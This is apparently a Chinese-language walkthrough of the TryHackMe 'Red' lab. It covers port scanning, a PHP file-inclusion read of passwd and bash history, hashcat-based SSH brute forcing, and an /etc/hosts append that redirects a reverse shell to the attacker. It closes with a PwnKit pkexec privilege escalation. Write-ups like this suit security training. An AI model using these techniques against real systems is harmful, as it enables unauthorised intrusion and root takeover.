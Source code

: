 ```yaml
---
sidebar_position: 77
tags: [Easy, Linux, 文件包含, SUID, DNS]
title: Red
description: Red
sidebar_label: Red
slug: /tryhackme/77
---
```

# Red
## 端口扫描

```bash
root@ip-10-10-125-162:~/redisl33t# nmap -sTCV -p 22,80 --min-rate 1000 10.10.92.179

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-07 08:41 BST
Nmap scan report for ip-10-10-92-179.eu-west-1.compute.internal (10.10.92.179)
Host is up (0.00039s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
MAC Address: 02:D3:2E:93:8B:21 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.50 seconds
```
## 80
![20240703194751](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703194751.png)

当我访问页面时我发现其 URL 比较特殊: 这感觉就像是一个文件包含漏洞

![20240703194803](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703194803.png)

所以我便拦截了他的请求来进行验证, 但是没有成功所以后便应该是做了过滤, 所以我将其替换为了 signup.html 发现主页面也发生了替换, 那么估计就是后端做了过滤, 所以我尝试了 PHP 伪协议发现可以

![20240703194819](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703194819.png)

利用此读取到了两个用户

```bash
blue:x:1000:1000:blue:/home/blue:/bin/bash
red:x:1001:1001::/home/red:/bin/bash
```

接着我在其中 blue 用户中读取到了 .bash_history 文件内容

![20240703194832](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703194832.png)

解密内容为:

```bash
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

![20240703194845](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703194845.png)

接着我读取了 `.reminder` 文件, 并以此生成了密码文件, 使用此进行 SSH 登陆
## 后渗透

### Blue
生成我们的密码字典并进行暴力测试密码

![20240703194911](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703194911.png)

使用得到的密码进行登陆

![20240703194924](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703194924.png)

### blue —> red
查看进程信息在其中发现一个反向 Shell , 它使用的域名, 而不是 IP

![20240703194941](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703194941.png)

接着我发现对于 /etc/hosts 文件我们有权限进行 rw , 但是当我们进行重写这个文件时却没有权限

![20240703194952](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703194952.png)

这是因为做了额外的限制, 此时我们需要查看它的扩展属性, 这里限制了只能追加, 同时我们可以借助 host 的特性, 后面的会覆盖前面的设置 , 记得多执行几次, 应该有什么定时任务会将 /etc/hosts 文件恢复

```bash
blue@red:~$ lsattr /etc/hosts
-----a--------e----- /etc/hosts
blue@red:~$ echo "10.10.125.162  redrules.thm" >> /etc/hosts
```

在本地开启监听就可以获取到一个 Shell

![20240703195003](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703195003.png)

### red —> root

此时在用户 red 家目录中发现一个 SUID  程序, 经过查找发现存在本地权限提升漏洞 [PolicyKit-1 0.105-31 Privilege Escalation](https://packetstormsecurity.com/files/165739/PolicyKit-1-0.105-31-Privilege-Escalation.html)

```bash
(remote) red@red:/home/red/.git$ ls -al
total 40
drwxr-x--- 2 red  red   4096 Aug 14  2022 .
drwxr-xr-x 4 root red   4096 Aug 17  2022 ..
-rwsr-xr-x 1 root root 31032 Aug 14  2022 pkexec
(remote) red@red:/home/red/.git$ ./pkexec --version
pkexec version 0.105
```
我们将其下载并在 THM 的攻击机中将其编译好后进行上传 (记得修改其中 BIN 的路径)

![20240703195040](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703195040.png)
